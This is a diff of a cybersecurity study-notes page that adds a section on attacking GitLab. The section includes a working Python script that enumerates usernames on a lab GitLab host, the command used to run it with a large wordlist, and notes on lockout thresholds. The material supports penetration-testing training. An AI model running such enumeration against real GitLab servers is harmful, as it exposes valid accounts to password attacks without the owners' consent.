

Before and after one commit to QED-92/cyber-security, a Markdown page: attacking-common-applications/attacking-common-applications.md, 2 parts joined by grey strips. Shown at 83% size. Rendered like a GitHub page; pictures changed too: attacking-common-applications/images/gitlab7.PNG (added); blank space fills up the shorter version.

````diff
--- a/attacking-common-applications/attacking-common-applications.md
+++ b/attacking-common-applications/attacking-common-applications.md
@@ -33,6 +33,10 @@ This document outlines common techniques for identifying and exploiting vulnerab
     - [osTicket](#osticket)
     - [Gitlab - Discovery & Enumeration](#gitlab---discovery--enumeration)
     - [Attacking Gitlab](#attacking-gitlab)
+
+  - [Common Gateway Interfaces](#common-gateway-interfaces)
+    - [Attacking Tomcat CGI](#attacking-tomcat-cgi)
+
 
 ---
 
@@ -1468,3 +1472,62 @@ This behavior can be used to enumerate valid user accounts, which may later be t
 ---
 
 ### Attacking Gitlab
+
+GitLab exposes multiple attack paths that commonly revolve around **username enumeration**, **weak authentication**, and **version-specific vulnerabilities**. Since GitLab allows user enumeration by default, the first step is identifying valid accounts before attempting authentication attacks.
+
+GitLab exposes user profile pages at predictable paths:
+
+```
+/<username>
+```
+
+When requesting these paths, GitLab returns different HTTP status codes depending on whether the user exists. This behavior can be leveraged for **unauthenticated username enumeration**.
+
+The following Python script enumerates valid usernames by sending `HEAD` requests to potential profile URLs:
+
+```python
+#!/usr/bin/env python3
+
+import requests
+import argparse
+
+def main():
+    parser = argparse.ArgumentParser(description='GitLab User Enumeration')
+    parser.add_argument('--url', '-u', type=str, required=True, help='The URL of the GitLab\'s instance')
+    parser.add_argument('--wordlist', '-w', type=str, required=True, help='Path to the username wordlist')
+    parser.add_argument('-v', action='store_true', help='Enable verbose mode')
+    args = parser.parse_args()
+
+    print('GitLab User Enumeration in python')
+
+    with open(args.wordlist, 'r') as f:
+        for line in f:
+            username = line.strip()
+            if args.v:
+                print(f'Trying username {line[:-1]}...')
+            http_code = requests.head(f'{args.url}/{username}').status_code
+            if http_code == 200:
+                print(f'[+] The username {username} exists!')
+            elif http_code == 0:
+                print('[!] The target is unreachable.')
+                break
+
+if __name__ == '__main__':
+    main()
+```
+
+Run the script using a common username wordlist:
+
+```bash
+python3 user-enum.py --url http://gitlab.inlanefreight.local:8081/ -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
+```
+
+We discover two valid usernames:
+
+- `bob`
+- `root`
+
+![Filtered output](images/gitlab7.PNG)
+
+GitLab implements account lockout protections. In versions `16.6` and earlier, accounts are locked for 10 minutes after 10 failed login attempts by default. From version `16.6` onward, administrators can customize lockout thresholds via the admin UI.
+
````
Also changed, not shown: other parts of attacking-common-applications/attacking-common-applications.md (+51 -0 lines), attacking-common-applications/image.png (deleted), attacking-common-applications/images/gitlab8.PNG (added), attacking-common-applications/images/gitlab9.PNG (added).
